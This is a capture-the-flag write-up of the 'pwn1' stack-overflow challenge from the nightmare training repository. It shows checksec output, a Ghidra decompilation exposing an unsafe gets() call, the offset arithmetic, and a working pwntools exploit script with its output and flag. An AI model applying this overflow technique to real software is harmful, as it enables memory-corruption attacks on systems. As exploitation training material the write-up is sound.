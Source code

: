 This is a short write-up of Challenge #1 a variable overflow from [hoppersroppers nightmare repository](https://github.com/hoppersroppers/nightmare/tree/master/modules/04-Overflows).

First things first lets find out what we are working with.

```jsx
checksec pwn1
[*] '/home/user/nightmare/pwn1'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

pwn1 is a `32` bit little endian binary with RELRO, a Non-Executable Stack, and PIE. We also can verify that we can run this binary but it exits as it seems to not like our answer to the question asked.

```jsx
./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
bugsy
I don't know that! Auuuuuuuugh!
```

Within Ghidra we can locate an exported function `main`. `main` has 3 main parts question 1, 2, and 3. 

```c
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */
/* WARNING: Globals starting with '_' overlap smaller symbols at the same address */

undefined4 main(undefined param_1)

{
  int iVar1;
  char userVar [43];
  int local_18;
  undefined4 local_14;
  undefined1 *local_10;
  
  local_10 = &param_1;
  setvbuf(_stdout,(char *)0x2,0,0);
  local_14 = 2;
  local_18 = 0;
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see."
      );
  puts("What... is your name?");
  fgets(userVar,0x2b,_stdin);
  iVar1 = strcmp(userVar,"Sir Lancelot of Camelot\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(userVar,0x2b,_stdin);
  iVar1 = strcmp(userVar,"To seek the Holy Grail.\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is my secret?");
  gets(userVar);
  if (local_18 == -0x215eef38) {
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
  return 0;
}
```

Question 1: "What... is your name?"

This uses `fgets()` to safely retrieve `userVar` verify that it is within the bounds of the allocated array. It is then compared it to a hard coded string, `"Sir Lancelot of Camelot\n"`. If it is is equal we continue to the next question.

Question 2: "What... is your quest?"

Once again using `fgets()` to retrieve `userVar`, `userVar` is then compared to another hard-coded string, `"To seek the Holy Grail.\n"`. If it is equal then we continue to the third question. 

Question 3: "What... is my secret?"

This time `gets()` is used to retrieve `userVar`. Meaning that the bounds of the array are not verified and there does not appear to be any other type of safety checks. Additionally `userVar` is not being compared this time. This time `local_18` is compared to `-0x215eef38` instead of a hard-coded string and if it is equal then `print_flag()` is called. However, `local_18` is set to equal 0 so in order for the two to be equal we will need to overwrite the value of `local_18`.

Thanks to Ghidra we can view the assembly instructions of the function. This shows us that `userVar` starts at `-0x43` and `local_18` starts at `-0x18`. 

1. Offset=0x43−0x18
2. Offset=0x2B

![pwn1.png](Overflow%20Challenge%20#1%200dcf7e07e2974561ae2c6c519db471de/pwn1.png)

Viewing the assembly for `if (local_18 == -0x215eef38)` we see that local_18 is being compared to `0xdea110c8`.

![pwn2.png](Overflow%20Challenge%20#1%200dcf7e07e2974561ae2c6c519db471de/pwn2.png)

Armed with this knowledge we know we need to overwrite `0x2B` (43 bytes) prior to overwriting local_18 with the value that we want it to be, in this case `0xdea110c8`.

Hacking a Python script together I ended up with the following:

```python
from pwn import *

p = process('./pwn1')

junk = b'A' * 0x2b
comparedVal = 0xdea110c8
newLine = b'\n'

payload = [
    junk,
    p32(comparedVal),
    newLine
]

print(p.recvline())
# Question 1
print(p.recvline())
p.sendline(b'Sir Lancelot of Camelot')

# Question 2
print(p.recvline())
p.sendline(b"To seek the Holy Grail.")

# Question 3
print(p.recvline())
print("Sending payload....")
p.send(b''.join(payload))

print(p.recvline())
print(p.recvline())
```

And we got the flag!

```python
python3 ./pwn1.py
[+] Starting local process '/home/user/nightmare/pwn1': pid 7811
b'Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.\n'
b'What... is your name?\n'
b'What... is your quest?\n'
b'What... is my secret?\n'
Sending payload....
[*] Process '/home/user/nightmare/pwn1' stopped with exit code 0 (pid 7811)
b'Right. Off you go.\n'
b'flag{g0ttem_b0yz}\n'
```
